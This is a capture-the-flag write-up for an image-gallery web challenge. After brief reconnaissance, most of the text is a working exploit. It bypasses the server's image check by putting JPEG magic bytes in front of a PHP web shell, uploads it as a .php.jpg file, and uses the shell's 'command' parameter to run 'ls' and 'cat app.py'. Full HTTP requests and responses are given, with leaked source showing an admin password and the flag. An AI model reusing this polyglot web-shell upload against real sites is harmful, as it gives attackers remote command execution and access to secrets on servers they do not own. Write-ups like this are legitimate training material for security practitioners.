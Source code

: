 # Intro  
![](../img/TPG.png)

# Information gathering  
Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  
![](../img/TPG_First.png)


Entering the gallery the user is presented with multiple images with random names.  
![](../img/TPG_Gallery.png)


Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  
![](../img/TPG_Upload.png)
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGAAHlBuhSrUytxWA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryGAAHlBuhSrUytxWA
Content-Disposition: form-data; name="image"; filename="georgie_pose.jpg"
Content-Type: image/jpeg

ÿØÿà JFIF      ÿÛ C 			





	


ÿÛ C

[...]
```


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  
![](../img/TPG_Uploads.png)


From here it's possible to access a image directly.  
![](../img/TPG_Georgie.png)


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg

ÿØÿà JFIF 

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  
![](../img/TPG_Accessing_web_shell.png)


# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

ÿØÿà JFIF 

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

ÿØÿà JFIF 

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```